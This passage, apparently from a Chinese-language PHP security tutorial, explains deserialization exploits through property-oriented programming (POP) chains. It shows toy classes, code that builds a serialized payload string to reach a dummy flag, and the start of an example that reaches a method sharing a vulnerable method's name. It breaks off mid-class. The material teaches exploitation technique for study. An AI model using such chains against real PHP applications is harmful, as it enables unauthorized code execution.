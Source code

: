 ```php
class Coll{
    public $group;
    //...
}
?>
```

这是三个类的定义，它们是递进依赖的关系。接下来在代码中添加以下几行

```php
//声明
$c = new User();
$b = new Group();
$a = new Coll();
//利用
$c->name = "admin";
$b->user = $c;
$a->group = $b;
//获得exp
echo serialize($a);
```

输出了`O:4:"Coll":1:{s:5:"group";O:5:"Group":1:{s:4:"user";O:4:"User":1:{s:4:"name";s:5:"admin";}}}`和应有的flag（因为执行完脚本自动destruct）。而如果转而添加以下几行

```php
$string = 'O:4:"Coll":1:{s:5:"group";O:5:"Group":1:{s:4:"user";O:4:"User":1:{s:4:"name";s:5:"admin";}}}';
$Coll = unserialize($string);
```

也可以得到flag，这就是一次简单的POP链利用过程了。

### POP链

POP是面向属性编程的意思。在以上操作中，我们利用unserialize函数，控制了一些相互依赖的对象的属性。

unserialize函数上面已经讲过了，它的本质是：**控制了对象的所有属性**，即使这个属性是另一个对象，也可以控制。

为了做到控制某个属性，控制了一层又一层的对象，连起来像链条一样。就如上例，我们**意图**是控制`name`，为了演示，通过`Coll->Group->User->name`进行了控制。这就是POP链的构造。其实很简单。

### 相同函数名的漏洞利用

这是一个扩展利用链的方法。

有时候漏洞函数在一个类的普通方法中，我们正常是做不到以可控变量访问此方法的。这个时候我们可以通过可以控制的类，与漏洞函数所在方法同名的方法来执行。例子如下

```php
<?php

class Main{
    public $classObj;
    function __construct(){
        $this->classObj = new Accessable();
    }
    function __destruct(){
        $this->classObj->action();
    }
}

class NotAccessable{
    function action(){
        echo "flag{this_is_flag}";
    }
}

class Accessable{
```